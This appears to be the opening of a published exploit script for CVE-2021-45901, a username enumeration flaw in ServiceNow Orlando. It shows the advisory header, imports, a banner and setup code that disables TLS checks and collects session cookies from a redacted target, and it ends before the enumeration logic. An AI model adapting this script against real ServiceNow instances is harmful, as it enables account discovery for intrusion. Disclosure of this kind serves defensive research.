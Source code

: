 # Software Link: https://docs.servicenow.com/bundle/orlando-servicenow-platform/page/product/mid-server/task/t_DownloadMIDServerFiles.html
# Version: Orlando
# Tested on: MAC OSX
# CVE : CVE-2021-45901

#!/usr/local/bin/python3
# Author: Victor Hanna (SpiderLabs)
# User enumeration script SNOW
# Requires valid 1. JSESSION (anonymous), 2. X-UserToken and 3. CSRF Token

import requests
import re
import urllib.parse
from colorama import init
from colorama import Fore, Back, Style
import sys
import os
import time

from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

def banner():
    print ("[+]********************************************************************************[+]")
    print ("|   Author : Victor Hanna (9lyph)["+Fore.RED + "SpiderLabs" +Style.RESET_ALL+"]\t\t\t\t\t    |")
    print ("|   Decription: SNOW Username Enumerator                                            |")
    print ("|   Usage : "+sys.argv[0]+"                                                        |")
    print ("|   Prequisite: \'users.txt\' needs to contain list of users                          |")   
    print ("[+]********************************************************************************[+]")

def main():
    os.system('clear')
    banner()
    proxies = {
        "http":"http://127.0.0.1:8080/",
        "https":"http://127.0.0.1:8080/"
    }
    url = "http://<redacted>/"
    try:
        # s = requests.Session()
        # s.verify = False
        r = requests.get(url, timeout=10, verify=False, proxies=proxies)
        JSESSIONID = r.cookies["JSESSIONID"]
        glide_user_route = r.cookies["glide_user_route"]
        startTime = (str(time.time_ns()))
        # print (startTime[:-6])
